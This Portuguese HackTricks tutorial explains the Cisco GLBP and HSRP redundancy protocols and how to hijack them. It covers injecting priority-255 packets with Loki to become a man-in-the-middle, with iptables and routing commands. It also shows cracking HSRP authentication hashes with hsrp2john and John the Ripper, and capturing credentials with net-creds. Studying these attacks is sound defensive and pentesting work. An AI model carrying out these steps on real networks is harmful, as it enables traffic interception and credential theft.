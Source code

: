 # Ataques GLBP & HSRP

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>


## Visão Geral do Sequestro de FHRP

### Entendendo FHRP
First Hop Redundancy Protocol (FHRP) é um conjunto de protocolos que garante a resiliência da rede combinando múltiplos roteadores físicos em uma única entidade virtual. Isso melhora a distribuição de carga e a tolerância a falhas. A Cisco Systems introduziu dois protocolos FHRP notáveis: GLBP e HSRP.

### Detalhes do Protocolo GLBP
Desenvolvido pela Cisco, o GLBP (Gateway Load Balancing Protocol) opera no topo da pilha TCP/IP, utilizando UDP na porta 3222 para comunicação. Roteadores dentro de um grupo GLBP enviam pacotes "hello" a cada 3 segundos. A ausência desses pacotes por 10 segundos de um roteador indica sua falha. No entanto, essas configurações de temporizador são ajustáveis.

### Operação e Balanceamento de Carga do GLBP
O GLBP permite o compartilhamento de carga entre múltiplos roteadores usando um único IP virtual e vários endereços MAC virtuais. Cada roteador no grupo participa do encaminhamento de pacotes. O GLBP difere do HSRP/VRRP ao oferecer um verdadeiro balanceamento de carga, que inclui:

- **Dependente do Host:** Garante que um host receba o mesmo endereço MAC do AVF, preservando configurações de NAT.
- **Round-Robin:** O modo padrão onde os endereços MAC do AVF são distribuídos alternadamente.
- **Round-Robin Baseado em Peso:** Balanceia a carga com base em uma métrica de "Peso" pré-definida.

### Papéis e Terminologia do Domínio GLBP
- **AVG (Active Virtual Gateway):** O roteador primário, distribuindo endereços MAC para outros roteadores.
- **AVF (Active Virtual Forwarder):** Um roteador que lida com o tráfego de rede.
- **Prioridade GLBP:** Decide o AVG, com um padrão de 100 e variação de 1 a 255.
- **Peso GLBP:** Indica o nível de carga do roteador, ajustável manualmente ou via Object Tracking.
- **Endereço IP Virtual GLBP:** Atua como gateway padrão para dispositivos conectados.

Para comunicação, o GLBP usa o endereço multicast reservado 224.0.0.102 e a porta UDP 3222. Pacotes "hello" são enviados a cada 3 segundos, e roteadores são marcados como "mortos" se um pacote não for recebido dentro de 10 segundos.

### Mecanismo de Ataque GLBP
Um atacante pode se tornar o roteador primário enviando um pacote GLBP com o valor de prioridade mais alto (255). Isso pode levar a ataques de DoS ou MITM, permitindo a interceptação ou redirecionamento do tráfego.

### Executando um Ataque GLBP com Loki
[Loki](https://github.com/raizo62/loki_on_kali) pode realizar um ataque GLBP injetando um pacote com prioridade e peso definidos para 255. As etapas pré-ataque envolvem coletar informações como o endereço IP virtual, presença de autenticação e valores de prioridade do roteador usando ferramentas como o Wireshark.

Etapas do Ataque:
1. Mude para o modo promíscuo e habilite o encaminhamento de IP.
2. Identifique o roteador alvo e recupere seu IP.
3. Gere um ARP Gratuito.
4. Injete um pacote GLBP malicioso, se passando pelo AVG.
5. Atribua um endereço IP secundário à interface de rede do atacante, espelhando o IP virtual GLBP.
6. Implemente SNAT para visibilidade completa do tráfego.
7. Ajuste o roteamento para garantir o acesso contínuo à internet através do roteador AVG original.

Seguindo essas etapas, o atacante se posiciona como um "homem no meio", capaz de interceptar e analisar o tráfego de rede, incluindo dados não criptografados ou sensíveis.

Para demonstração, aqui estão os trechos de comandos necessários:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Monitoramento e interceptação de tráfego podem ser realizados usando net-creds.py ou ferramentas similares para capturar e analisar dados que fluem através da rede comprometida.

### Explicação Passiva do Sequestro de HSRP com Detalhes de Comandos

#### Visão Geral do HSRP (Hot Standby Router/Redundancy Protocol)
HSRP é um protocolo proprietário da Cisco projetado para redundância de gateway de rede. Ele permite a configuração de múltiplos roteadores físicos em uma única unidade lógica com um endereço IP compartilhado. Esta unidade lógica é gerenciada por um roteador primário responsável por direcionar o tráfego. Ao contrário do GLBP, que usa métricas como prioridade e peso para balanceamento de carga, HSRP depende de um único roteador ativo para gerenciamento de tráfego.

#### Papéis e Terminologia no HSRP
- **HSRP Active Router**: O dispositivo atuando como gateway, gerenciando o fluxo de tráfego.
- **HSRP Standby Router**: Um roteador de backup, pronto para assumir se o roteador ativo falhar.
- **HSRP Group**: Um conjunto de roteadores colaborando para formar um único roteador virtual resiliente.
- **HSRP MAC Address**: Um endereço MAC virtual atribuído ao roteador lógico na configuração do HSRP.
- **HSRP Virtual IP Address**: O endereço IP virtual do grupo HSRP, atuando como gateway padrão para dispositivos conectados.

#### Versões do HSRP
HSRP vem em duas versões, HSRPv1 e HSRPv2, diferindo principalmente na capacidade do grupo, uso de IP multicast e estrutura do endereço MAC virtual. O protocolo utiliza endereços IP multicast específicos para troca de informações de serviço, com pacotes Hello enviados a cada 3 segundos. Um roteador é presumido inativo se nenhum pacote for recebido dentro de um intervalo de 10 segundos.

#### Mecanismo de Ataque ao HSRP
Ataques ao HSRP envolvem tomar à força o papel do Roteador Ativo injetando um valor de prioridade máximo. Isso pode levar a um ataque Man-In-The-Middle (MITM). Passos pré-ataque essenciais incluem coletar dados sobre a configuração do HSRP, o que pode ser feito usando Wireshark para análise de tráfego.

#### Passos para Bypassar a Autenticação do HSRP
1. Salve o tráfego de rede contendo dados do HSRP como um arquivo .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extraia hashes MD5 do arquivo .pcap usando hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Quebre os hashes MD5 usando John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Executando Injeção de HSRP com Loki**

1. Inicie o Loki para identificar anúncios de HSRP.
2. Defina a interface de rede para modo promíscuo e habilite o encaminhamento de IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Use o Loki para mirar no roteador específico, insira a senha HSRP quebrada e realize as configurações necessárias para se passar pelo Roteador Ativo.
4. Após ganhar o papel de Roteador Ativo, configure sua interface de rede e tabelas IP para interceptar o tráfego legítimo.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modifique a tabela de roteamento para direcionar o tráfego através do antigo Roteador Ativo.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Use net-creds.py ou uma utilidade similar para capturar credenciais do tráfego interceptado.
```shell
sudo python2 net-creds.py -i eth0
```

Executar esses passos coloca o atacante em posição de interceptar e manipular o tráfego, de maneira similar ao procedimento para sequestro de GLBP. Isso destaca a vulnerabilidade em protocolos de redundância como o HSRP e a necessidade de medidas de segurança robustas.


# Referências
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas dicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
